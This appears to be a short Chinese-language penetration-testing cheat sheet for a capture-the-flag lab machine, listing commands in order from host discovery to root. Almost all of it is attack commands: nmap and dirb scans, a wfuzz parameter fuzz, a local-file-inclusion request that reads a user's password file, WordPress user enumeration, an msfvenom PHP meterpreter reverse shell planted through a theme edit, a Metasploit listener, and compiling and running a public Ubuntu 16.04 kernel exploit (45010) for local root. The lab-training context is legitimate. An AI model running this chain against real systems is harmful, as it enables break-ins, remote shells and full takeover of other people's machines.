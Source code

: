 # 主机发现
`nmap -sP 192.168.111.0/24`

# 端口扫描
`nmap -p- 192.168.111.129 -A`

# 目录扫描 指定后缀
`dirb http://192.168.111.129 -X .txt,.php,.zip`

# Fuzz 使用wfuzz
`wfuzz -c  -w /usr/share/wfuzz/wordlist/general/common.txt --hw 12  http://192.168.111.129/index.php?FUZZ`

# LFI 
`http://192.168.111.129/image.php?file=location.txt`
`http://192.168.111.129/image.php?secrettier360=/home/saket/password.txt`

# Wordpress 扫描 枚举用户
wpscan --url http://192.168.56.111/wordpress -e


# msf 生成反弹shell
`msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.56.101 lport=7777 -f raw -o 1.php`
注意前面的注释/* 去掉

# 主题修改 上传php
寻找可编辑php

# msf 等待连接
```
msfconsole
use exploit/multi/handler
set payload/php/meterpreter/reverse_tcp
set lhost 1.1.1.1
set lport 7777
exploit
upload /tmp/45010 /tmp
shell # 交互shell
chmod a+x /tmp/45010
/tmp/45010
id
```

# 本地提权
```
getuid
sysinfo # 获取系统版本
```
```
msfconsole
searchsploit 16.04 ubuntu
# 根据版本号取得提权代码
gcc /usr/share/exploitdb/exploits/linux/local/45010.c -o /tmp/45010
```
